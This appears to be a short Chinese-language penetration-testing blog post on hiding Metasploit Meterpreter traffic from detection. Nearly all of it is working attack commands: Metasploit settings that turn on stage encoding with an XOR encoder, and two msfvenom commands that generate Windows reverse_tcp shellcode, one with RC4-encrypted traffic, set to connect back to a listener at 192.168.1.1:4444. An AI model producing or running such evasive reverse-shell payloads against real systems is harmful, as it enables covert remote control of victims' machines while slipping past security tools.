 ```yaml
---
title: "Meterpreter 流量免杀"
date: 2019-08-04T00:00:00+08:00
draft: false
tags: ['metasploit','bypass']
categories: ['bypass','内网渗透']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


对 meterpreter 流量进行编码或加密, 有两种方式.

<!--more-->

指定编码方式, 名称与对 shellcode 的编码器相同.

```
set EnableStageEncoding true
set StageEncoder x86/xor_dynamic
set StageEncodingFallback false
```

生成 shellcode.

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 EnableStageEncoding=true StageEncoder=x86/xor_dynamic StageEncodingFallback=false -f c -o shellcode.c
```

或是直接生成通过 rc4 加密流量的 shellcode.

```
msfvenom -p windows/meterpreter/reverse_tcp_rc4 LHOST=192.168.1.1 LPORT=4444 RC4PASSWORD=exp10it -f c -o shellcode.c
```